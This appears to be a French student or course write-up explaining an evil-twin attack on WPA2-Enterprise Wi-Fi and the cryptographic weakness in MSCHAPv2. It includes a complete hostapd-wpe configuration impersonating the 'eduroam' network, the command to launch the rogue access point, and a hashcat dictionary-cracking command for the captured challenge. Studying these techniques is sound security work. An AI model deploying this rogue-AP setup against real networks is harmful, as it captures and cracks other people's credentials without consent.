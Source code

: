 # L'attaque

## Evil twin

### Principe
Une attaque de type "evil twin" exploite la façon dont les clients WiFi reconnaissent les réseaux, en se basant principalement sur le nom du réseau (ESSID) sans exiger de la station de base (point d'accès) qu'elle s'authentifie auprès du client. Il s'agit d'une faiblesse de configuration rencontrée dans la majorité des réseaux WPA2-Entreprise, lesquels n'imposent pas aux utilisateurs de contrôler le certificat présenté par le point d'accès pour des raisons de simplicité.

Les points clés sont les suivants de l'attaque sont les suivants :

- **Différenciation difficile** : Il est difficile de différencier un point d'accès légitime d'un point d'accès malveillant lorsque leurs ESSID sont confondus et qu'ils partagent le même mécanisme de sécurité (WPA2-Enterprise dans notre cas). D'autant plus que les réseaux WPA2-Enterprise que l'ont retrouve dans les établissements utilisent souvent plusieurs point d'accès avec le même ESSID pour étendre la courverture de manière transparente pour les utilisateurs finaux.
- **Itinérance des clients et manipulation des connexions** : Le protocole 802.11 permet aux appareils de passer d'un point d'accès à l'autre au sein d'un même ESS. Il est possible d'exploiter cette possibilité en incitant un appareil à se déconnecter de son point d'accès actuel et à se connecter à un point d'accès malveillant. Il est possible d'y parvenir en offrant un signal plus fort ou en perturbant la connexion au point d'accès légitime en envoyant des paquets de désauthentification ou en le brouillant.


### Mise en œuvre

Nous allons configurer le point d'accès malveillant à l'aide de `hostapd-wpe` qui est un correctif de `hostapd` qui permet de réaliser l'attaque "evil twin" et surtout d'obtenir les informations d'identification du client (dont le sujet est traité ci-après) échangés lors de l'authentification (et normalement inaccessibles avec `hostapd` seul).

```bash
# Installation de hostapd-wpe
sudo apt install hostapd-wpe
```

Nous configurons `hostapd-wpe` de la sorte pour qu'il diffuse un point d'accès avec le même ESSID que le réseau cible.

```
interface=wlan0
ssid=eduroam
channel=1
ignore_broadcast_ssid=0
eap_user_file=mi-net4104/hostapd-wpe.eap_user
ca_cert=mi-net4104/attack/ca.pem
server_cert=mi-net4104/attack/server.pem
private_key=mi-net4104/attack/server.pem
private_key_passwd=password
dh_file=mi-net4104/attack/dh
eap_fast_a_id=101112131415161718191a1b1c1d1e1f
eap_server=1
eap_fast_a_id_info=hostapd-wpe
eap_fast_prov=3
ieee8021x=1
pac_key_lifetime=604800
pac_key_refresh_time=86400
pac_opaque_encr_key=000102030405060708090a0b0c0d0e0f
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
```

```bash
# Lance le point d'accès malveillant
sudo hostapd-wpe hostapd-wpe.conf -s
```

Voici les logs de hostapd-wpe lorsqu'un client se connecte

![Logs de Hostapd-wpe](files/Hostapd-log.png)

Comme on peut le voir sur le logs, on a hostpad-wpe qui nous donne directement ce que nous devons donner à haschat pour retrouver le mots de passe utilisé. 

Ensuite la manière simple de récupéré le mots de passe si le mots de passe du client est simple est d'utilisé haschat avec une attaque par dictionnaire en utilisant la base de mots de passe la plus connu : rockyou.txt

```bash
# Lance le point d'accès malveillant
hashcat64.exe -m 5500 -a 0 <Le challenge md4 que nous donne hostapd-wpe> rockyou.txt 
```

Si le mots de passe est simple il est souvent dans la base de mots de passe de rockyou.txt et donc on peut le retrouver facilement.

![Logs de hashcat](files/Hashcat.png)


## MSCHAPv2

Supposons que nous souhaitons nous authentifier auprès d'un réseau Wi-Fi utilisant le protocole PEAP-MSCHAPv2. Pour obtenir les informations d'authentification de d'un utilisateur du réseau cible, diffuser un point d'accès Wi-Fi avec le même SSID que le réseau cible suffit, à condition que les clients tentent de s'y connecter en ne vérifiant pas le certificat CA du serveur d'authentification.

Dès lors, nous pouvons nous concentrer auprès de la méthode d'authentification (MSCHAPv2), et remarquer que l'empreinte MD4 du mot de passe de l'utilisateur est suffisante pour s'authentifier en ce qu'elle agit comme le mot de passe lui-même.

### Attaque par dictionnaire ?

Une première approche pour obtenir le mot de passe de l'utilisateur pourrait être de réaliser une attaque par dictionnaire sur l'empreinte MD4. Par exemple, on pourrait simplement calculer l'empreinte MD4 d'un grand nombre de mots de passe possibles, s'en servir pour calculer la réponse à un défi et comparer avec la réponse fournie par le client.

Le problème de cette approche est que la réussite de cette attaque n'est pas garantie, car le mot de passe de l'utilisateur peut être complexe et ne pas figurer dans le dictionnaire.

### Attaque par force brute ?

Dans la mesure où le mot de passe de l'utilisateur est susceptible d'avoir une longueur arbitraire et d'être composé de caractères d'un large ensemble, il pourrait être intéressant d'attaquer par la force brute l'empreinte MD4 du mot de passe elle-même. Mais cette empreinte est de 128 bits, soit $2^{128}$ possibilités, ce qui est bien trop grand pour être réalisable en un temps raisonnable.

### Diviser pour mieux régner

L'empreinte MD4 que nous essayons d'obtenir est utilisée comme la clef de trois chiffrements DES. Les clés DES étant de 7 octets, chaque opération DES utilise un morceau de 7 octets de l'empreinte MD4. Ainsi, au lieu de chercher l'empreinte MD4 elle-même, on pourrait chercher les trois clés DES qui permettent de la construire. Dès lors, plus besoin d'attaquer par la force brute une empreinte de 128 bits, mais trois clés de 56 bits chacune.

Comme il y a 3 opérations DES et que ces opérations sont indépendantes les unes des autres, on a une complexité globale de $3 \times 2^{56} = 2^{57.59}$, ce qui est bien mieux que $2^{128}$.

Mais il y a quelque chose qui ne va pas. En l'espèce, nous avons besoin de trois clefs DES de 56 bits pour un total de 168 bits, alors que l'empreinte MD4 n'en fait que 128 : il manque 40 bits. Lors de la réalisation de MSCHAPv2, Microsoft a palié à ce problème en ajoutant 40 bits nuls à l'empreinte MD4, rendant la troisième clef DES d'une longueur effective de 16 bits.

Ainsi, il n'y a que $2^{16}$ possibilités pour cette dernière clef DES, ce qui est tout à fait réalisable par la force brute. La complexité totale de l'attaque est donc de $2^{56} + 2^{56} + 2^{16} = 2^{57}$. C'est considérablement mieux.

```
    Clef 1          Clef 2          Clef 3
+-------------+  +-----------+   +-----------+
|?|?|?|?|?|?|?|  |?|?|?|?|?|?|   |?|?|0|0|0|0|
+-------------+  +-----------+   +-----------+
```
